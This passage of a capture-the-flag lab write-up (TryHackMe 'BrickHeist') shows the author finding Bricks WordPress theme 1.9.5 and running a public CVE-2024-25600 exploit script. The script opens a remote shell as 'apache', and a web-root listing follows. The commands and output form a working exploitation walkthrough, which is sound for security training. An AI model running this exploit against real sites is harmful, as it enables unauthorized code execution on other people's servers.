```
 | Version: 1.9.5 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - https://bricks.thm/wp-content/themes/bricks/style.css, Match: 'Version: 1.9.5'
```

Worpress theme with version 1.9.5

A simple Google search for the exploit for WordPress 1.9.5 gives CVE-2024-25600 an RCE. I downloaded it on my machine and ran it.

```
┌──(kali㉿kali)-[~/Desktop/THM/BrickHeist]
└─$ python3 CVE-2024-25600.py -u https://bricks.thm

   _______    ________    ___   ____ ___  __ __       ___   ___________ ____  ____
  / ____/ |  / / ____/   |__ \ / __ \__ \/ // /      |__ \ / ____/ ___// __ \/ __ \
 / /    | | / / __/________/ // / / /_/ / // /_________/ //___ \/ __ \/ / / / / / /
/ /___  | |/ / /__/_____/ __// /_/ / __/__  __/_____/ __/____/ / /_/ / /_/ / /_/ /
\____/  |___/_____/    /____/\____/____/ /_/       /____/_____/\____/\____/\____/
    
Coded By: K3ysTr0K3R --> Hello, Friend!

[*] Checking if the target is vulnerable
[+] The target is vulnerable
[*] Initiating exploit against: https://bricks.thm
[*] Initiating interactive shell
[+] Interactive shell opened successfully
Shell> whoami
apache

Shell> 
```

Got the shell.

```
Shell> ls
650c844110baced87e1606453b93f22a.txt
index.php
kod
license.txt
phpmyadmin
readme.html
wp-activate.php
wp-admin
wp-blog-header.php
wp-comments-post.php
wp-config-sample.php
wp-config.php
wp-content
wp-cron.php
wp-includes
wp-links-opml.php
wp-load.php
wp-login.php
wp-mail.php
wp-settings.php
wp-signup.php
wp-trackback.php
xmlrpc.php
```
